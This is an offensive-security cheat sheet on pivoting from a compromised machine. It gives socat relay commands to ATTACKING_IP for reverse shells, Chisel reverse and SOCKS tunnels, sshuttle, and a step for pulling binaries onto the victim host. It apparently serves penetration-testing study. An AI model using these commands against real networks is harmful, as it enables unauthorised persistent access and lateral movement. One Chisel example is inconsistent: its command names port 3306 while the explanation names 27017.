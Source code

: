 #### Useful binaries 
https://github.com/andrew-d/static-binaries

#### Socat 
>If we have gain access to a machine then socat can encrypted create a relay on compromised machine and we can get a reverse shell on another machine and socat forwards to our machine.
>Can be used in both linux and windows systems.
>Can be used to create encrypted port forward and relays.
```
sudo python3 -m http.server 80
Download the binary in compromised host using curl/wget.
```

##### In local machine 
>nc -nvlp 7000

##### In Compromised Machine
>./socat tcp-l:8000 tcp:ATTACKING_IP:7000 &

#### Killing Socat Connections
```
jobs
kill PID
```

#### Chisel
> Uses SOCKS5 Proxy

##### Reverse Port Forwarding with Chisel
###### In attacking machine
```
chisel server --host 10.50.102.117  -p 1234 --reverse

    server: run the server mode
    -p : port for the server to listen on
    --reverse: allows reverse port forwarding
```
###### In Compromised Machine

```
chisel client 10.50.102.117:1234 R:2222:127.0.0.1:3306/tcp

    client : run the client mode
    10.50.102.117:1234 : the IP address of the attacker’s machine and the port that was specified in the chisel server command
    R:2222:127.0.0.1:27017/tcp: the R means we want to perform a reverse port forward; 2222 is the port number we want to use to route traffic through on the attacker’s machine; 127.0.0.1:27017 is the IP address/port we want to route our traffic to on the client’s machine; /tcp means we want to use the TCP protocol.
```
>The previous commands will allow us to access the service running locally on the remote machine on port 2222 on the attacking machine.

##### Forward Port Forwarding with Chisel 

###### In Compromised Host
```
./chisel server -p LISTEN_PORT --socks5
```

###### In Attacking Box

```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

#### SSHuttle
```
sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i private_key" 10.10.10.0/24
```
##### Exclude the compromised Host 
```
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```
